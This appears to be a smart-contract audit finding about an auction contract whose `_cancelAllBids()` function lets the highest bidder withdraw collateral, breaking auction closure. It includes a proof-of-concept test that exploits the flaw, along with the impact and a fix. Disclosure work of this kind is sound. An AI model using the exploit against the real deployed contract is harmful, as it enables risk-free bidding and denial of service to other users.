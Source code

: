 Bubbly Pear Mink

high

# Bider can cancel the highest bid with cancelAllBids()

## Summary

User can bid for any active auction of tokenId in exchange of collateral. If user is the highest bidder he/she cannot cancel such bid. However, due to missing assertions within the `_cancelAllBids()` it is possible to cancel the bid and withdraw full amount of collateral anytime. Additionally, this action can temporarily or permanently brick the contract as it might be impossible to close the auction due to insufficient funds stored in contract.

## Vulnerability Detail

The `_cancelBid()` function has assertion implemented that bid cannot be canceled by the highest bidder. This information is stored within the `highestBids` collection.

```solidity
    function _cancelBid(
        uint256 tokenId,
        uint256 round,
        address bidder
    ) internal {
        EnglishPeriodicAuctionStorage.Layout
            storage l = EnglishPeriodicAuctionStorage.layout();

        address currentBidder;
        if (IStewardLicense(address(this)).exists(tokenId)) {
            currentBidder = IStewardLicense(address(this)).ownerOf(tokenId);
        } else {
            currentBidder = l.initialBidder;
        }

        require(
            bidder != l.highestBids[tokenId][round].bidder,
            'EnglishPeriodicAuction: Cannot cancel bid if highest bidder'
        );

        Bid storage bid = l.bids[tokenId][round][bidder];

        require(
            bid.collateralAmount > 0,
            'EnglishPeriodicAuction: No bid to cancel'
        );

        // Make collateral available to withdraw
        l.availableCollateral[bidder] += bid.collateralAmount;

        // Reset collateral and bid
        bid.collateralAmount = 0;
        bid.bidAmount = 0;
    }
```

However, there is a similar function: `_cancelAllBids()` with similar functionality as above one, but it does not have any assertions implemented. Thus, this function can be abused by means of `cancelAllBidsAndWithdrawCollateral()` function to withdraw all collateral before closing the auction. It must be noted that this action does not erase data within the `highestBids` collection.

```solidity
    function _cancelAllBids(uint256 tokenId, address bidder) internal {
        EnglishPeriodicAuctionStorage.Layout
            storage l = EnglishPeriodicAuctionStorage.layout();

        uint256 currentAuctionRound = l.currentAuctionRound[tokenId];

        for (uint256 i = 0; i <= currentAuctionRound; i++) {
            Bid storage bid = l.bids[tokenId][i][bidder];

            if (bid.collateralAmount > 0) {
                // Make collateral available to withdraw
                l.availableCollateral[bidder] += bid.collateralAmount;

                // Reset collateral and bid
                bid.collateralAmount = 0;
                bid.bidAmount = 0;
            }
        }
    }
```

```solidity
    function cancelAllBidsAndWithdrawCollateral(uint256 tokenId) external {
        _cancelAllBids(tokenId, msg.sender);
        _withdrawCollateral(msg.sender);
    }
```

The `_closeAuction()` function has fee distribution implemented by means of ether native token. However, if the highest bidder withdraw the collateral, the contract may have insufficient funds to cover fees, thus this function can temporarily or permanently revert. The `highestBids` collection still has active record of the bidder, so runtime code can reach this segment.

```solidity
    function _closeAuction(uint256 tokenId) internal {
...
        // Distribute fee to beneficiary
        if (l.highestBids[tokenId][currentAuctionRound].feeAmount > 0) {
            IBeneficiary(address(this)).distribute{
                value: l.highestBids[tokenId][currentAuctionRound].feeAmount 
            }();
        }
    }
```

## Proof of concept

PoC made based on `cancelBid - should revert if highest bidder tries to cancel bid` unit test.

```typescript
describe('cancelBid', function () {
    it('should revert if highest bidder tries to cancel bid', async function () {
      // Auction start: Now - 200
      // Auction end: Now + 100
      const instance = await getInstance({
        auctionLengthSeconds: 300,
        initialPeriodStartTime: (await time.latest()) - 200,
        licensePeriod: 1000,
      });

      const bidAmount = ethers.utils.parseEther('1.1');
      const feeAmount = await instance.calculateFeeFromBid(bidAmount);
      const collateralAmount = feeAmount.add(bidAmount);

      await instance
        .connect(bidder1)
        .placeBid(0, bidAmount, { value: collateralAmount });

      await expect(
        instance.connect(bidder1).cancelBid(0, 0),
      ).to.be.revertedWith(
        'EnglishPeriodicAuction: Cannot cancel bid if highest bidder',
      );

      const bidderAvailableCollateral = await instance.connect(bidder1).availableCollateral(bidder1.address);
      expect(bidderAvailableCollateral).to.be.equal(0);

      const bidder1BalanceBeforeCancellAll = await ethers.provider.getBalance(
        bidder1.address,
      );

      await instance.connect(bidder1).cancelAllBidsAndWithdrawCollateral(0);

      const bidder1BalanceAfterCancellAll = await ethers.provider.getBalance(
        bidder1.address,
      );

      //deduct small amount from collateral to cover gas used
      expect(collateralAmount.sub(ethers.utils.parseEther('0.0001'))).to.be.below(bidder1BalanceAfterCancellAll.sub(bidder1BalanceBeforeCancellAll));
        
      await time.increase(100);
      await expect(instance.connect(owner).closeAuction(0)).to.be.reverted;
    });
});
```
## Impact

This vulnerability allows bidder to perform risk-free bids, as any bid can be canceled and full amount of collateral withdrawn, which breaks one of the system invariants. Additionally, this finding can result in temporarily or permanently DoS of close auction functionality. 

## Code Snippet

[EnglishPeriodicAuctionInternal.sol#L416](https://github.com/sherlock-audit/2024-02-radicalxchange/blob/main/pco-art/contracts/auction/EnglishPeriodicAuctionInternal.sol#L416)

[EnglishPeriodicAuctionFacet.sol#L187](https://github.com/sherlock-audit/2024-02-radicalxchange/blob/main/pco-art/contracts/auction/facets/EnglishPeriodicAuctionFacet.sol#L187)

## Tool used

Manual Review

## Recommendation

It is recommended to implement similar imput validation within the `_cancelAllBids()` as in `_cancelBid()`. 
